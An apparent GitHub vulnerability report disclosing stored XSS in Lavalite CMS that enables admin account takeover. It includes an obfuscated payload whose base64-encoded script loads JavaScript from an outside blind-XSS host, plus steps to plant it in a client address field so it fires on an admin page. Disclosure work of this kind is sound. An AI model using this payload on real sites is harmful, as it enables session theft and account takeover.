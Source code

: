 # Description
Admin cookies and other details leading to an account take over to a higher level privilege from a client account of lavalite CMS and other multiple XSS in different pages due to acceptance of unsanitised data .check the permalinks to know more on the pages causing XSS.
# Payload
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# Proof of Concept for Account Takeover
* login to client account and admin account from entirely different browsers or through a private mode.
* In the client account click on settings and update the address column with the blind payload and save the updates made.
* from the admin account move to the end point http://localhost/admin/user/client .
* Booyah!!! XSS triggered.
* other POC's are available at the corresponding PR pages